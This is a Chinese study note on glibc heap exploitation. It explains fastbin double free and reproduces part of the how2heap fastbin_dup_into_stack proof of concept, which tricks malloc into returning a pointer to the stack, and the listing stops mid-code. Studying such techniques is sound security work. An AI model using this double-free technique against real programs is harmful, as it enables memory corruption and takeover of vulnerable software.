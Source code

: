 
如上图，我们可以知道只要我们要double free的这块内存不在在对应free-list的顶部，也就是说两次free中间还有了另外一个被free的堆块的话就可以实现两次free，重要是后面malloc同样大小的堆块的时候就可以从free list里面选空闲的堆块出来malloc，因为前面已经实现了double free，所以会出现后面malloc的时候有两个指针同时指向一个地址的情况，这个在利用方面就可以编辑之后要分配的堆头信息等等了吧！！(本块忙时被本块数据占用，本块空闲时为下一个空闲块的地址等等这些概念)具体利用后面学到再详细进行记录。

注：这里如果连续free同一个堆块（会有一个检查，用来防止double free的)，就会如下报错。
```
Freeing the first one...
If we free 0x14a6010 again, things will crash because 0x14a6010 is at the top of the free list.
*** Error in `./fastbin_dup': double free or corruption (fasttop): 0x00000000014a6010 ***
Aborted (core dumped)
```

### fastbin_dup_into_stack

源码如下：
```
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
	       "returning a pointer to a controlled location (in this case, the stack).\n");

	unsigned long long stack_var;

	fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

	fprintf(stderr, "Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	fprintf(stderr, "Freeing the first one...\n");
	free(a);

	fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	fprintf(stderr, "So, instead, we'll free %p.\n", b);
	free(b);

	fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
	unsigned long long *d = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", d);
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	fprintf(stderr, "Now the free list has [ %p ].\n", a);
	fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
		"so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
		"so that malloc will think there is a free chunk there and agree to\n"
		"return a pointer to it.\n", a);
	stack_var = 0x20;

```